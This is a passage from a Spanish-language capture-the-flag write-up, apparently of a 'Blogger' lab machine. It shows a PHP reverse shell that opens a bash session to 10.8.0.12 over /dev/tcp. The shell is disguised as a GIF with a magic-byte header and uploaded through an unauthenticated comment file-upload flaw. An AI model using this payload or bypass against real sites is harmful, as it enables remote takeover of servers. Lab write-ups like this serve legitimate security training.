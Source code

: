Nos encontramos varias vulnerabilidades, realizando varias pruebas la que me funciono fue Unauthenticated Arbitrary File Upload, mediante el sistema de comentarios de un post subir una reverse shell haciendo bypassing de el campo de imágenes, subiendo la revshell como GIF.

![uploadfile.png](/assets/images/hj-writeup-blogger/uploadfile.png)

Contenido de la revshell 

```bash
GIF89a;
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.0.12/1234 0>&1'"); ?>

#Agregamos la primer linea para que la interprete como GIF
```

Ahora solo necesitamos ingresar a la ruta donde se almacena la revshell, para hacerlo simplemente hacemos clic sobre el archivo, y nos ponemos en escucha con netcat.

![revshell upload.png](/assets/images/hj-writeup-blogger/revshell_upload.png)
